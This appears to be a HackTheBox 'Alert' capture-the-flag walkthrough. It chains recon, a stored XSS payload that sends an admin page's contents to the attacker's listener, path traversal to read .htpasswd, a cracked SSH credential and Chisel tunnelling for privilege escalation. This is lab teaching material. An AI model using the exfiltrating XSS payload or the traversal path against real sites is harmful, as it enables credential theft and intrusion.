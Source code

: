 ## HackTheBox Machine
![alt text](image.png)

### Link: https://app.hackthebox.com/machines/Alert
-------------------------------------------------------

### RECON:
+ Scan open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- alert.htb
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| ssh-rsa 
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
| ecdsa-sha2-nistp256 
|   256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/QUl3gapBOWCGEHplsOKe2NlWjlrb5vTTLjg6gMuGl
80/tcp    open     http    syn-ack     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
12227/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

+ Enumerate the all directories:

```bash
$ gobuster dir -u http://alert.htb -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/contact.php          (Status: 200) [Size: 24]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 274]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
```

+ Enumerate valid subdomain of `alert.htb`:

```bash
$ ./ffuf -u 'http://alert.htb' -H 'Host: FUZZ.alert.htb' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -fc 301
```
![alt text](image-1.png)

### XSS VULN:
+ In page `alert` - Markdown Viewer, we upload file `.md`. After checking all potential parameters can be XSS, we've found out that we can inject payload into file `.md` to pop up the alert XSS when view markdown.
+ We've prepared the payload `<script>alert(document.domain)</script>` and upload file `.md` to view markdown:

![alt text](image-3.png)

--> It work and the vuln XSS exist.

+ Check another pages, we notice in page `About us`:

![alt text](image-4.png)

--> It means that when we send contact messages and report then admin account will be auto checked. We can send messages in page `Contact` and capture the action of account administrators. Using the XSS Vuln to retrive sensitive information.

### GET INITIAL:
+ First we will generate payload XSS to retrive:

```js
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.29:8000/?data=" + encodeURIComponent(data));
})
</script>
```

***Note:*** When enumerating the directories, we found the hidden direc `messages` but we can not read information inside so we will use payload XSS to retrive informatio inside `messages`.

+ We open the local server:

```bash
$ sudo python3 -m http.server
[sudo] password for zicco: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

+ Upload the payload `.md`, after upload normal we choose `Share Mardown` and get the share link:

![alt text](image-5.png)

+ Copy the `link_share` and send it in `Contact`:

![alt text](image-6.png)

+ After send it, we will check the local server will capture the action:

![alt text](image-7.png)

+ Decode the capture and we see the potential information:

![alt text](image-8.png)

--> Now we can see the hidden direct `Messages` and notice the line `<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>`. We are able to access the messages.php with parameter `file` to read deeper.

+ We will manipulate `messages.php?file=` to read root file of subdomain which we've found `statistics.alert.htb` and we have the `PATH=/var/www/statistics.alert.htb/`. 
+ We've known the file contain password we can find in root file that is `.htpasswd`. Combine with `Path Traversal` we'had the full path: `http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd`.
+ Edit payload, get the link_share, send it and capture again:

![alt text](image-9.png)

+ Decode the capture:

![alt text](image-10.png)

+ Crack the passwd. Put the full hash `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/` in file .txt and use tool JohnTheRipper or Hashcat to bruteforce it:

![alt text](image-2.png)

--> We've had credential `albert:machesterunited`.

+ Login SSH:

![alt text](image-11.png)

### PRIVILEGE ESCALATION:
+ We can not run sudo. Using tool to enumerate vector priv and found the server port 8080 run local:

![alt text](image-12.png)

+ Check again `/opt`, we've known server is running port 8080 is `webstie-monitor`:

![alt text](image-13.png)

+ Website is monitoring 2 pages `alert.htb` and `statistics.alert.htb`:

![alt text](image-14.png)

+ Curl port 8080 we can read it but can not access directly:

![alt text](image-15.png)

+ We can use `Tunnel` to access port 8080. With myself, we use tool [Chisel](https://github.com/jpillora/chisel) to create TCP tunnel over HTTP to access port 8080.

+ In the attack machine, we open listener:

![alt text](image-16.png)

+ In target machine, we open:

![alt text](image-18.png)

+ Now we can access the page port 8080:

![alt text](image-19.png)




